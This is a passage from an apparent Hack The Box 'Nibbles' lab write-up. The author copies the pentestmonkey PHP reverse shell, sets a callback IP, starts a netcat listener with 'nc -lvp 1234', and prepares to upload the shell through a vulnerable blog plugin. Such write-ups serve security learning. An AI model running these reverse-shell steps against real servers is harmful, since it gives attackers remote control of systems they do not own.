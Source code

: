 Since I have the credentials I copied the pentest monky PHP reverse shell to my working directory.
~~~
┌──(emvee㉿kali)-[~/Documents/Nibbles/CVE-2015-6967]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
                                                                                                                    
┌──(emvee㉿kali)-[~/Documents/Nibbles/CVE-2015-6967]
└─$ nano shell.php  
~~~
And then I adjusted my IP address for the netcat listener in the PHP reverse shell. I did not change the port number for the listener.
![Image](/assets/img/WriteUp/HTB/Nibbles/11.png){: width="700" height="400" }

After saving the changes, I started my netcat listener on port 1234.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
~~~
Now it was time to upload the PHP reverse shell to the web server and activite the plugin.
![Image](/assets/img/WriteUp/HTB/Nibbles/13.png){: width="700" height="400" }
